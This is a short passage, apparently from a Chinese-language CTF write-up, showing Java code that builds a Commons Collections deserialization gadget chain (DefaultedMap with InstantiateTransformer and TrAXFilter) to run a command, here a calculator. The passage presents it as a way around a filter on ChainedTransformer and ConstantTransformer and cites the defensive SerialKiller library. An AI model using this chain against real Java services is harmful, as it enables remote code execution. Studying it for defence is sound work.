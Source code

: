 ```java
    String cmd = "mate-calc";
    HashMap innermap = new HashMap();

    Transformer transformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{GTemplates.getEvilTemplates(cmd)});

    DefaultedMap map = (DefaultedMap) DefaultedMap.decorate(innermap,transformer);

    TiedMapEntry tiedmap = new TiedMapEntry(map, TrAXFilter.class);

    HashSet exp = new HashSet(1);
    exp.add("foo");


    Object[] array = (Object[]) ReflectUtils.getFieldValue(ReflectUtils.getFieldValue(exp,"map"),"table");

    Object node = array[0];
    if(node == null){
        node = array[1];
    }

    ReflectUtils.setFieldValue(node,"key",tiedmap);

    byte[] payload = SerializeUtils.serialize(exp);
```

这在题目过滤了 ChainedTransformer 和 ConstantTransformer 的情况下算是一个绕过手段。 

# 参考资料
- [ikkisoft/SerialKiller: Look-Ahead Java Deserialization Library](https://github.com/ikkisoft/SerialKiller)